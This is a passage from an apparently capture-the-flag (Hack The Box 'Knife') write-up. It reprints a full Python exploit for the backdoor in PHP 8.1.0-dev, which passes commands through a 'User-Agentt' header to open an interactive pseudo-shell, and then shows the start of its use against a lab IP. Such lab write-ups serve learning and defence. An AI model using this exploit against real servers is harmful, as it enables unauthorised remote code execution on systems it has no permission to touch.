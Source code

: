"""                                                                                                         
Blog: https://flast101.github.io/php-8.1.0-dev-backdoor-rce/                                                
Download: https://github.com/flast101/php-8.1.0-dev-backdoor-rce/blob/main/backdoor\_php\_8.1.0-dev.py        
Contact: flast101.sec@gmail.com                                                                             
                                                                                                            
An early release of PHP, the PHP 8.1.0-dev version was released with a backdoor on March 28th 2021, but the 
backdoor was quickly discovered and removed. If this version of PHP runs on a server, an attacker can execute arbitrary code by sending the User-Agentt header.
The following exploit uses the backdoor to provide a pseudo shell ont the host.
"""

#!/usr/bin/env python3
import os
import re
import requests

host = input("Enter the full host url:\\n")
request = requests.Session()
response = request.get(host)

if str(response) == '<Response \[200\]>':
    print("\\nInteractive shell is opened on", host, "\\nCan't acces tty; job crontol turned off.")
    try:
        while 1:
            cmd = input("$ ")
            headers = {
            "User-Agent": "Mozilla/5.0 (X11; Linux x86\_64; rv:78.0) Gecko/20100101 Firefox/78.0",
            "User-Agentt": "zerodiumsystem('" + cmd + "');"
            }
            response = request.get(host, headers = headers, allow\_redirects = False)
            current\_page = response.text
            stdout = current\_page.split('<!DOCTYPE html>',1)
            text = print(stdout\[0\])
    except KeyboardInterrupt:
        print("Exiting...")
        exit

else:
    print("\\r")
    print(response)
    print("Host is not available, aborting...")
    exit

We're now all set to exploit.

## Exploitation

~/Documents/htb/knife » python3 phpDev.py                                                   1 ↵ connor@kali
Enter the full host url:
http://10.10.10.242
